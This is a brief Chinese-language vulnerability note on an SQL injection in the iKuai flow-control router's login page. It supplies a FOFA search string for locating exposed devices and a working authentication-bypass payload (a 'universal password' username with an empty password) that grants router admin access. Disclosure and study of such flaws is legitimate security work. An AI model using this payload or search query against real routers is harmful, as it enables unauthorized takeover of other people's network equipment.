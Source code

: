 # iKuai 流控路由 SQL注入漏洞

## 漏洞描述

iKuai 流控路由 存在SQL注入漏洞，可以通过SQL注入漏洞构造万能密码获取路由器后台管理权限

## 漏洞影响

```
iKuai 流控路由
```

## FOFA

```
title="登录爱快流控路由"
```

## 漏洞复现

登录页面如下

![](./images/202202140931704.png)

使用万能密码登录后台

```plain
user: "or""=""or""="
pass: 空
```

![](./images/202202140931830.png)